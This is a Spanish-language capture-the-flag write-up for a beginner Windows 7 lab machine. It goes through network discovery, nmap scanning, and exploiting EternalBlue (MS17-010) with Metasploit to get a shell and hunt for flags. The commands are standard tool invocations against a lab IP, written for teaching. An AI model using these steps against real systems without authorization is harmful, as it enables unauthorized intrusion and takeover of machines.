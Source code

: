 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Microchoft

### 🔍 **RECONOCIMIENTO**

En primer lugar, miramos la **IP** de la máquina víctima con este comando:

```bash
sudo arp-scan --interface=eth0 --localnet
```

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

En segundo lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.57
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

Definitivamente es una máquina Windows porque el TTL=128.

A continuación, se realiza el comando:

```bash
sudo nmap -p- --open -sS -Pn --min-rate 5000 -n 192.168.1.57
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los siguientes puertos están abiertos:

* **135/tcp**: Pertenece al servicio **MSRPC** (Microsoft Remote Procedure Call), que es utilizado para la comunicación entre procesos en sistemas Windows.
* **139/tcp**: Pertenece al servicio **NetBIOS-SSN** (NetBIOS Session Service), utilizado por redes que ejecutan el protocolo SMB (Server Message Block) en sistemas Windows.
* **445/tcp**: Pertenece al servicio **Microsoft-DS** (Microsoft Directory Services), utilizado para compartir archivos en redes Windows mediante el protocolo SMB.

Además, se han detectado varios puertos en el rango dinámico de Windows (49152-65535) abiertos, pero sin un servicio conocido específico:

* **49152/tcp - 49157/tcp**: Puertos marcados como **unknown**, los cuales pueden estar relacionados con servicios de red personalizados o asignados dinámicamente por el sistema operativo para uso de aplicaciones específicas.

Dado que los puertos **135/tcp**, **139/tcp**, y **445/tcp** están abiertos, se indagará más en relación a estos puertos para evaluar posibles vulnerabilidades o configuraciones incorrectas en los servicios SMB y MSRPC, que son comúnmente utilizados en entornos Windows y pueden ser potenciales vectores de ataque si no están adecuadamente asegurados.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.57
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **445/tcp** perteneciente al servicio **Microsoft-DS** está abierto. Este puerto es utilizado para compartir archivos y otros recursos en redes Windows mediante el protocolo SMB (Server Message Block).

Al analizar más a fondo, se ha detectado que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** y está configurado en el grupo de trabajo **WORKGROUP**. Este sistema, con el **puerto 445 abierto**, es particularmente preocupante ya que es vulnerable a la famosa vulnerabilidad **EternalBlue**.

**EternalBlue**, que afecta versiones de Windows no actualizadas, explota una vulnerabilidad crítica en el protocolo SMBv1, lo que podría permitir la ejecución remota de código y, en consecuencia, el control completo del sistema afectado. Esta vulnerabilidad ha sido utilizada en ataques masivos como el ransomware **WannaCry**.

Dado que estamos frente a un sistema operativo obsoleto (Windows 7), y que el puerto **445/tcp** está expuesto, se procederá a indagar más para determinar si el sistema es susceptible a esta vulnerabilidad y recomendar medidas de mitigación, como la actualización del sistema operativo o la desactivación del protocolo SMBv1.\


Por eso mismo revisamos si es vulnerable por si acaso con el comando:

```
nmap -p445 --script="vuln and safe" 192.168.1.57
```

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
msfconsole
```

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

A continuación se intentará explotar esa vulnerabilidad a través de la herramienta **Metasploit**. Se busca la vulnerabilidad exacta que obtenida en el anterior escaneo.

```bash
search ms17-010
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Revisamos el segundo ya que tenemos un **Windows 7** de máquina víctima.

```bash
use 2
```

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Miramos las opciones que tenemos que configurar con el comando:

```bash
show options
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

A continuación, configuramos los parámetros necesarios para realizar el ataque:

* **RHOSTS**: Definimos la dirección IP del host remoto (objetivo) como `192.168.1.57`.
* **LHOST**: Establecemos la dirección IP de nuestro host local (atacante) como `192.158.1.50`.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

Después de haber configurado estos parámetros correctamente, procederemos a verificar si el objetivo es explotable. Esto implica ejecutar la explotación para confirmar si la vulnerabilidad está presente y si podemos obtener acceso o control del sistema remoto.

```bash
exploit
```

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro ejecutamos:

```bash
pwd
```

<figure><img src="../../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

A medida que avanzamos en nuestra investigación, revisaremos los directorios de los usuarios **Admin** y **Lola** para encontrar las diferentes flags requeridas en este reto.

¡Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
